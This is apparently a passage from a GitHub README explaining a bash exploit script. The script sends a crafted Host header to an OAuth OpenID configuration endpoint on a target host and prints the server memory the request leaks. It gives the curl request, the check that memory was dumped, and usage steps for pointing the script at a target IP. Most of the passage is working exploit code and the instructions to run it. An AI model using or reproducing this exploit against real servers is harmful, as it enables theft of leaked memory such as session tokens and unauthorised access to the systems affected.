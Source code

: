 Here, the `headers` variable is constructed with the `-H` option for the cURL command. It sets the 'Host' header to the previously generated `header_value`.

```bash
headers="-H 'Host:$header_value'"
```
This line uses cURL to send a request to the specified URL with the constructed `headers`. The `-s` flag suppresses progress meter and error messages, while the `-k` flag allows cURL to perform an insecure SSL connection. The `--connect-timeout 10` flag sets a connection timeout of 10 seconds. The response is stored in the `response` variable.

```bash
response=$(curl -s -k -H "$headers" "https://$hostname/oauth/idp/.well-known/openid-configuration" --connect-timeout 10)
```

In this block, it checks if the exit status of the cURL command is 0 (indicating a successful request) and if the first three characters of the response are "200" (HTTP success code). If both conditions are met, it prints `--- Dumped memory ---`, followed by a portion of the response starting from character 131,051, and then indicates that the hostname is vulnerable. If the conditions are not met, it prints `Could not dump memory`.

```bash
if [ $? -eq 0 ] && [ "$(echo $response | cut -c 1-3)" == "200" ]; then
    echo "--- Dumped memory ---"
    echo "$response" | cut -c 131051-
    echo "The #HOSTNAME is vulnerable!"
    echo "---      End      ---"
else
    echo "Could not dump memory"
fi
```

## Script sh

The script.sh script accepts one parameter, which should be the target hostname without the application of a protocol (e.g., `192.168.1.200`). It uses this parameter to perform a specific action in the exploit.

Example Execution:

```shell
./script.sh 192.168.1.200
```

Before running the script, you might need to grant execute permissions to the file, as mentioned. You can do this with the following command:

```shell
sudo chmod +x script.sh
```

After assigning execute permissions, the above command allows the user to run the script without having to specify the sh command before the script's name.

## Sources
